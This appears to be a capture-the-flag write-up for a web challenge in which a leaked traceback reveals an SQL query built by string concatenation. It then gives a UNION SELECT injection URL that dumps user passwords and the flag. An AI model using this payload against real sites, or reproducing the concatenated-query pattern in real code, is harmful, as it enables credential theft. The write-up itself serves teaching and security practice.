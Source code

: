 # Meet the Union Committee

**Category**: Web \
**Points**: 100 (101 solves) \
**Author**: BananaMan

## Challenge

A committee was formed last year to decide the highly-sensitive contents of our challenges. All we could find is their profiles on this website. They are super paranoid that their profile site is hackable and decided to implement insane rate limits. Really we need to get access to the admin's password. If only that was possible.

http://34.105.202.19:1336/

## Solution


Go to http://34.105.202.19:1336/?id=%3Cshit%3E:
```
Traceback (most recent call last):
  File "unionflaggenerator.py", line 49, in do_GET
    cursor.execute("SELECT id, name, email FROM users WHERE id=" + params["id"])
sqlite3.OperationalError: near "<": syntax error
```

SQLi:
```sql
SELECT id, name, email FROM users WHERE id=1 UNION SELECT id, password, email FROM users
```

Go to http://34.105.202.19:1336/?id=1%20UNION%20SELECT%20id,%20password,%20email%20FROM%20users:

```
union{uni0n_4ll_s3l3ct_n0t_4_n00b}
```
